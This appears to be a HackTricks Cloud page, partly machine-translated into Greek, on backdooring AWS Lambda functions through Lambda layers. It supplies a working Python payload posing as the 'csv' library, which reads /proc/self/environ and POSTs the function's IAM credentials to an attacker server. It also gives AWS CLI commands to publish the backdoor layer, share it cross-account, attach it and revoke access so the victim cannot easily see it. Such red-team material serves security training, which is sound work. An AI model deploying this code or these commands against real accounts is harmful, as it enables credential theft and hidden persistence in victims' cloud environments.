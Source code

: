 # AWS - Lambda Layers Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lambda Layers

Ένα Lambda layer είναι ένα αρχείο .zip που **μπορεί να περιέχει επιπλέον κώδικα** ή άλλο περιεχόμενο. Ένα layer μπορεί να περιέχει βιβλιοθήκες, μια [προσαρμοσμένη εκτέλεση](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), δεδομένα ή αρχεία ρυθμίσεων.

Είναι δυνατόν να συμπεριλάβετε έως **πέντε layers ανά λειτουργία**. Όταν συμπεριλαμβάνετε ένα layer σε μια λειτουργία, το **περιεχόμενο εξάγεται στον φάκελο `/opt`** στο περιβάλλον εκτέλεσης.

Κατά **προεπιλογή**, τα **layers** που δημιουργείτε είναι **ιδιωτικά** για τον λογαριασμό σας AWS. Μπορείτε να επιλέξετε να **μοιραστείτε** ένα layer με άλλους λογαριασμούς ή να **κάνετε** το layer **δημόσιο**. Εάν οι λειτουργίες σας καταναλώνουν ένα layer που δημοσίευσε διαφορετικός λογαριασμός, οι λειτουργίες σας μπορούν να **συνεχίσουν να χρησιμοποιούν την έκδοση του layer μετά την διαγραφή του, ή μετά την ανάκληση της άδειάς σας για πρόσβαση στο layer**. Ωστόσο, δεν μπορείτε να δημιουργήσετε μια νέα λειτουργία ή να ενημερώσετε λειτουργίες χρησιμοποιώντας μια διαγραμμένη έκδοση layer.

Οι λειτουργίες που αναπτύσσονται ως εικόνα κοντέινερ δεν χρησιμοποιούν layers. Αντίθετα, συσκευάζετε την προτιμώμενη εκτέλεση, τις βιβλιοθήκες και άλλες εξαρτήσεις στην εικόνα κοντέινερ όταν κατασκευάζετε την εικόνα.

### Python load path

Η διαδρομή φόρτωσης που θα χρησιμοποιήσει η Python στο lambda είναι η εξής:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Έλεγχος του πώς οι **δεύτερες** και τρίτες **θέσεις** καταλαμβάνονται από καταλόγους όπου οι **lambda layers** αποσυμπιέζουν τα αρχεία τους: **`/opt/python/lib/python3.9/site-packages`** και **`/opt/python`**

{% hint style="danger" %}
Εάν ένας επιτιθέμενος καταφέρει να **backdoor** μια χρησιμοποιούμενη **lambda layer** ή **προσθέσει μία** που θα **εκτελεί αυθαίρετο κώδικα όταν φορτώνεται μια κοινή βιβλιοθήκη**, θα είναι σε θέση να εκτελεί κακόβουλο κώδικα με κάθε κλήση lambda.
{% endhint %}

Επομένως, οι απαιτήσεις είναι:

* **Έλεγχος βιβλιοθηκών** που είναι **φορτωμένες** από τον κώδικα των θυμάτων
* Δημιουργία μιας **proxy βιβλιοθήκης με lambda layers** που θα **εκτελεί προσαρμοσμένο κώδικα** και θα **φορτώνει την αρχική** βιβλιοθήκη.

### Προφορτωμένες βιβλιοθήκες

{% hint style="warning" %}
Όταν εκμεταλλεύτηκα αυτή την τεχνική, βρήκα μια δυσκολία: Ορισμένες βιβλιοθήκες είναι **ήδη φορτωμένες** στο runtime της python όταν εκτελείται ο κώδικάς σας. Περίμενα να βρω πράγματα όπως `os` ή `sys`, αλλά **ακόμα και η βιβλιοθήκη `json` ήταν φορτωμένη**.\
Για να εκμεταλλευτεί αυτή την τεχνική επιμονής, ο κώδικας πρέπει να **φορτώσει μια νέα βιβλιοθήκη που δεν είναι φορτωμένη** όταν εκτελείται ο κώδικας.
{% endhint %}

Με έναν κώδικα python όπως αυτόν είναι δυνατόν να αποκτηθεί η **λίστα των βιβλιοθηκών που είναι προφορτωμένες** μέσα στο runtime της python σε lambda:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
Και αυτή είναι η **λίστα** (ελέγξτε ότι οι βιβλιοθήκες όπως το `os` ή το `json` είναι ήδη εκεί)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
Και αυτή είναι η λίστα με τις **βιβλιοθήκες** που **περιλαμβάνει η lambda εγκατεστημένες από προεπιλογή**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Backdooring Lambda Layer

Σε αυτό το παράδειγμα ας υποθέσουμε ότι ο στοχευμένος κώδικας εισάγει **`csv`**. Θα **backdoor-άρουμε την εισαγωγή της βιβλιοθήκης `csv`**.

Για να το κάνουμε αυτό, θα **δημιουργήσουμε τον φάκελο csv** με το αρχείο **`__init__.py`** μέσα σε μια διαδρομή που φορτώνεται από τη lambda: **`/opt/python/lib/python3.9/site-packages`**\
Έτσι, όταν η lambda εκτελείται και προσπαθεί να φορτώσει **csv**, το **αρχείο `__init__.py` μας θα φορτωθεί και θα εκτελεστεί**.\
Αυτό το αρχείο πρέπει να:

* Εκτελεί το payload μας
* Φορτώνει την αρχική βιβλιοθήκη csv

Μπορούμε να κάνουμε και τα δύο με:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Then, create a zip with this code in the path **`python/lib/python3.9/site-packages/__init__.py`** and add it as a lambda layer.

You can find this code in [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

The integrated payload will **στείλει τα IAM creds σε έναν διακομιστή ΤΗΝ ΠΡΩΤΗ ΦΟΡΑ που θα κληθεί ή ΜΕΤΑ από μια επαναφορά του κοντέινερ lambda** (αλλαγή κώδικα ή κρύα lambda), αλλά **άλλες τεχνικές** όπως οι παρακάτω θα μπορούσαν επίσης να ενσωματωθούν:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### External Layers

Note that it's possible to use **lambda layers from external accounts**. Moreover, a lambda can use a layer from an external account even if it doesn't have permissions.\
Also note that the **max number of layers a lambda can have is 5**.

Therefore, in order to improve the versatility of this technique an attacker could:

* Backdoor an existing layer of the user (nothing is external)
* **Δημιουργήσει** μια **layer** στον **λογαριασμό του**, δώσει στον **λογαριασμό του θύματος πρόσβαση** για να χρησιμοποιήσει τη layer, **ρυθμίσει** τη **layer** στο Lambda του θύματος και **αφαιρέσει την άδεια**.
* The **Lambda** will still be able to **χρησιμοποιεί τη layer** και το **θύμα δεν θα** έχει καμία εύκολη δυνατότητα να **κατεβάσει τον κώδικα των layers** (εκτός από το να αποκτήσει ένα rev shell μέσα στο lambda)
* The victim **δεν θα δει εξωτερικές layers** που χρησιμοποιούνται με **`aws lambda list-layers`**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
